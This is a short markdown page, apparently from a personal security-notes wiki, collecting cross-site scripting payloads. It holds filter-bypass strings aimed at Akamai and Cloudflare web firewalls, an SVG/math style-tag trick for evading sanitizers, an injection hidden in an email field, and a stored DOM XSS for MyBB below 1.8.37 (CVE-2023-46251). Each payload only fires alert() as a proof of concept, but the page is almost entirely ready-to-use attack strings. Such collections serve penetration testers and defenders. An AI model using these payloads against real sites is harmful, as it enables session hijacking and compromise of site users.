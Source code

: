 
# Bypasses

General 1:

```
`url=%26%2302java%26%23115cript:alert(document.domain)`
```

Akamai [[content/Web/Payloads/WAF Bypass|WAF Bypass]] 1:

```
1'"><A HRef=\" AutoFocus OnFocus=top/**/?.['ale'%2B'rt'](1)>
```

Cloudflare [[content/Web/Payloads/WAF Bypass|WAF Bypass]]1:

```
"><body/onload="{x:onerror=alert};x
```

Cloudflare [[content/Web/Payloads/WAF Bypass|WAF Bypass]] 2:

```
<inpuT autofocus oNFocus="setTimeout(function() { /*\`*/top['al'+'\u0065'+'rt']([!+[]+!+[]]+[![]+[]][+[]])/*\`*/ }, 5000);"></inpuT%3E&lT;/stYle&lT;/titLe&lT;/teXtarEa&lT;/scRipt&gT;
```

Hide payload in style tag of an SVG or math element for [[content/Web/Payloads/WAF Bypass|WAF Bypass]]or sanitizer bypass:

```
<svg><style> <script>alert(1)</script> </style></svg> <math><style> <img src onerror=alert(2)> </style></math>
```
# Field

Email field 1:

```
test@gmail.com%27\%22%3E%3Csvg/onload=alert(/xss/)%3E
```

# Stored
# Stored DOM

## MyBB

CVE-2023-46251 - Stored DOM XSS in MyBB < 1.8.37

```
[size='1337px;\">>\<img/src=ccc/ onerror=alert`1`//id=name //&pt;']eviltext[/size]
```